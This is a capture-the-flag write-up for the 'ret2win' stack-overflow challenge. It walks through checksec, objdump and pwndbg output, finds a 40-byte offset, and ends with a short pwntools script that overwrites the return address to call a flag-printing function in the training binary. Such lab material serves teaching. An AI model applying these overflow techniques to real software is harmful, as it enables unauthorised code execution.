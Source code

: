 First of all, use checksec to get some binary information

```
[marco@marco-pc Downloads]$ file ret2win
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a871295b6234edb261710bcc73a8c03e3c0f601d, not stripped
[marco@marco-pc Downloads]$ checksec --file=ret2win
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   77 Symbols     No	0		3	ret2win

```

The file is not stripped, so let's use objdump and gdb (with pwndbg) to get some information from symbol table


```
objdump -t ret2win
...
00000000004007b5 l     F .text	000000000000005c              pwnme
0000000000400811 l     F .text	0000000000000020              ret2win
...
```

There are 2 interesting functions:
- pwnme, which is called from main, which print some strings and get an input;
- ret2win which perfom a system comand "cat flag.txt"

```
pwndbg> disassemble ret2win 
Dump of assembler code for function ret2win:
   0x0000000000400811 <+0>:	push   rbp
   0x0000000000400812 <+1>:	mov    rbp,rsp
   0x0000000000400815 <+4>:	mov    edi,0x4009e0
   0x000000000040081a <+9>:	mov    eax,0x0
   0x000000000040081f <+14>:	call   0x4005f0 <printf@plt>
   0x0000000000400824 <+19>:	mov    edi,0x4009fd
   0x0000000000400829 <+24>:	call   0x4005e0 <system@plt>
   0x000000000040082e <+29>:	nop
   0x000000000040082f <+30>:	pop    rbp
   0x0000000000400830 <+31>:	ret    
End of assembler dump.
pwndbg> x/s 0x4009fd
0x4009fd:	"/bin/cat flag.txt"
```

With a buffer overflow we can control the EIP and then we can jump in the ret2win funciton.
Let's find out how many bytes we need to fill until EIP

```
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

...
For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
...

RBP  0x6161616a61616169 ('iaaajaaa')

...

pwndbg> cyclic -l 'iaaa'
32

...
```

32 byte to EBP ( +8 to EIP = 40 ). Final exploit:



```python
  1 #!/usr/bin/python3
  2 
  3 import struct
  4 from pwn import *
  5 
  6 ret2win_addr = 0x0000000000400811
  7 
  8 shellcode = ("A"*40).encode()
  9 shellcode += struct.pack("<Q", ret2win_addr)
 10 
 11 p = process('./ret2win')
 12 
 13 p.recvuntil('>')
 14 p.sendline(shellcode)
 15 p.interactive()
```
